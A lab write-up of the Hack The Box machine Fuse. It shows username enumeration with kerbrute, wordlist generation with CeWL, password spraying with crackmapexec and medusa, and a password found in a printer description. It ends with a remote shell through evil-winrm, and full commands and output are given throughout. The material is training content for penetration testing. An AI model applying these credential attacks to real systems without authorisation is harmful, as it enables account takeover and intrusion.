

# Exercise: Brute forcing usernames and passwords for remote access on Hack The Box machine Fuse

In this exercise, we enumerate users and potential passwords from the public website of the machine Fuse. We then use a few tools, including Kerbrute and CrackMapExec. Eventually we get a username and password that allows us to gain remote access to the machine using evil-winrm.

An nmap scan of the box gives us the following ports:

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $nmap -v -sC -sV -T4 --min-rate 1000 -p- fuse.htb -oA nmap/full-tcp
<SNIP>
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-12-21 03:44:56Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49675/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49676/tcp open msrpc Microsoft Windows RPC
49679/tcp open msrpc Microsoft Windows RPC
49697/tcp open msrpc Microsoft Windows RPC
49755/tcp open msrpc Microsoft Windows RPC
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h55m31s, deviation: 4h37m09s, median: 15m29s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Fuse
| NetBIOS computer name: FUSE\x00
| Domain name: fabricorp.local
| Forest name: fabricorp.local
| FQDN: Fuse.fabricorp.local
|_ System time: 2020-12-20T19:45:52-08:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020-12-21T03:45:51
|_ start_date: 2020-12-21T03:35:26
```

The OS discovery suggests that the box is a Windows Server 2016. The variety of ports like DNS, LDAP and Kerberos suggest that it is an Active Directory domain controller with the domain fabricorp.local. We can add this hostname to the /etc/hosts file. An interesting note at this point is whether add the fabricorp.local DNS to the list of nameservers to query so that any other subdomains would be accessible automatically. You can normally do this by adding the entry nameserver &lt;IP address&gt; to the file /etc/resolv.conf. However, in this case, the DNS returned the incorrect IP address for fabricorp.local and so this is not an option.

Going to the website, we get redirected to the URL http://fuse.fabricorp.local/papercut/logs/html/index.htm and so we can add fuse.fabricorp.local to the /etc/hosts file as well. This gives us a page shown in Figure 4-8.


fuse.fabricorp.local home page. A PaperCut printing administration page.

The page is an instance of the PaperCut printing software printer logs. On the page, we can see print logs for 3 specific days. Going into each entry, we find records of print jobs for a variety of users as in the entry for the 29th May 2020 shown in Figure 4-9.




Enumerating the website it is apparent that the site is static HTML and so even if there was a CVE related to this version of PaperCut, there would be nothing to exploit. Instead, we can focus on the users that are listed with the print jobs:

```text
pmerton
tlavel
sthompson
bhult
administrator
```

We can add these to a file users.txt and use a program kerbrute to check if these users exist on the fabricorp.local domain. To get kerbrute, you can download a release from https://github.com/ropnop/kerbrute. Running this with the users listed above, we get:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $kerbrute userenum -d fabricorp.local --dc fabricorp.local users.txt
 __ __ __
 / /_____ _____/ /_ _______ __/ /____
 / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 12/21/20 - Ronnie Flathers @ropnop
2020/12/21 13:58:13 > Using KDC(s):
2020/12/21 13:58:13 > fabricorp.local:88
2020/12/21 13:58:14 > [+] VALID USERNAME: pmerton@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: tlavel@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: sthompson@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: administrator@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: bhult@fabricorp.local
2020/12/21 13:58:14 > Done! Tested 5 usernames (5 valid) in 0.389 seconds
```

Now that we have valid usernames, we need password candidates and a place to try them. We are going to use CeWL to parse the website and generate a wordlist.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $cewl -d 3 -m 8 --with-numbers -w fabricorp_wordlist.txt http://fuse.fabricorp.local/papercut/logs/html/index.htm
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

We have specified a depth of 3 \(-d 3\) for the program to crawl, a minimum password length of 8 \(-m 8\), we want words that contain numbers \(--with-numbers\) and an output file fabricorp\_wordlist.txt and the URL of the home page we want to crawl. This generates a wordlist of the type:

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $cat fabricorp_wordlist.txt
PaperCut
GRAYSCALE
papercut
sthompson
LONWK019
Document
Grayscale
Software
Copyright
Location
NotepadLETTER
Language
printing
International
bnielson
LONWK015
mountain
Fabricorp01
```

We can't use Hydra with this machine. It will error out when trying to brute force SMB and if you try SMB v2, after compiling a version with this support, it will not report the specific SMB error we are looking for. To do that, we need to use crackmapexec which illustrates that sometimes using a range of tools is a good option. Using crackmapexec, we get an error for the user tlavel and password Fabricorp01 that the STATUS\_PASSWORD\_MUST\_CHANGE.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $crackmapexec smb fuse.htb -u users.txt -p fabricorp_wordlist.txt
SMB 10.129.2.5 445 FUSE [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SM
Bv1:True)
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\pmerton:PaperCut STATUS_LOGON_FAILURE
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\tlavel:LONWK015 STATUS_LOGON_FAILURE
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\tlavel:mountain STATUS_LOGON_FAILURE
SMB 10.129.2.5 445 FUSE [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

An alternative to crackmapexec is medusa which can be used with the the user file \(-U users.txt\), the password file \(-P fabricorp\_wordlist.txt\) and the SMB NT module \(-M smbnt\). This gives the following output:

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $medusa -h fuse.htb -U users.txt -P fabricorp_wordlist.txt -M smbnt
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: PaperCut (1 of 45 complete)
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: GRAYSCALE (2 of 45 complete)
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: papercut (3 of 45 complete)
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: pmerton (1 of 5, 0 complete) Password: sthompson (4 of 45 complete)
…
ACCOUNT CHECK: [smbnt] Host: fuse.htb (1 of 1, 0 complete) User: tlavel (2 of 5, 1 complete) Password: Fabricorp01 (18 of 45 complete)
ACCOUNT FOUND: [smbnt] Host: fuse.htb User: tlavel Password: Fabricorp01 [SUCCESS (0x000224:STATUS_PASSWORD_MUST_CHANGE)]
…
```

Whichever way you do it, the end result is that the password for tlavel, Fabricorp01 needs to be reset. We can do this with smbpasswd:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $smbpasswd -U tlavel -r fabricorp.local
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
```

If we test the new password Fabricorp02 with crackmapexec, we get:

```bash
┌─[rin@parrot]─[/opt/impacket]
└──╼ $crackmapexec smb fuse.htb -u tlavel -p Fabricorp02
SMB 10.129.70.212 445 FUSE [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB 10.129.70.212 445 FUSE [+] fabricorp.local\tlavel:Fabricorp02
```

The password gets reset every minute on this machine back to Fabricorp01 and so whatever we do to test access, we need to do it straight after resetting the password. There is also a password history kept and so each time the password is changed from Fabricorp01, it needs to be changed to an entirely new password.

We can do that and then log into the machine using rpcclient. Interestingly, rpcclient will also report NT\_STATUS\_PASSWORD\_MUST\_CHANGE if we use the original Fabricorp01

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $rpcclient -U tlavel fuse.htb
Enter WORKGROUP\tlavel's password:
Cannot connect to server. Error was NT_STATUS_PASSWORD_MUST_CHANGE
```

Using enumdomusers to enumerate the users on the box, we get an extended list of users:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $rpcclient -U tlavel fuse.htb
Enter WORKGROUP\tlavel's password:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
rpcclient $>
```

We can collect all of the users and create a new users file with these users in it called rpc\_users.txt and then just extract the usernames with the command:

```bash
cat rpc_users.txt | awk -F '\\[|]' '{print $2}' > rpc_users2.txt
```

The awk command uses the -F flag to specify the field separator regular expression. We are separating the text between the square bracket \(\[\]\) characters. The '\\' is necessary to escape the first \[. If we try and write to the same file, it will end up blank and so that is why we need to create a separate file.

Back on rpcclient, we can look at printers that might be shared by using the enumprinters command. This gives output which contains a password:

```bash
rpcclient $> enumprinters
 flags:[0x800000]
 name:[\\10.129.70.212\HP-MFT01]
 description:[\\10.129.70.212\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
 comment:[]
rpcclient $>
```

A password has been saved in the description $fab@s3Rv1ce$1 which we can test with the users we enumerated earlier:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Fuse]
└──╼ $crackmapexec smb fuse.htb -u rpc_users.txt -p '$fab@s3Rv1ce$1'
SMB 10.129.70.212 445 FUSE [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB 10.129.70.212 445 FUSE [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB 10.129.70.212 445 FUSE [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
```

We get a hit with the username svc-print which we can then use to get access with evil-wrinrm:

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i fuse.htb
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-print\Documents>
The user flag is in c:\Users\svc-print\Desktop\users.txt.
```

We will leave this here and come back to Fuse in a subsequent chapter where we cover further enumeration for discovery and privilege escalation. Next however we are going to explore custom exploitation as a means of gaining initial access.

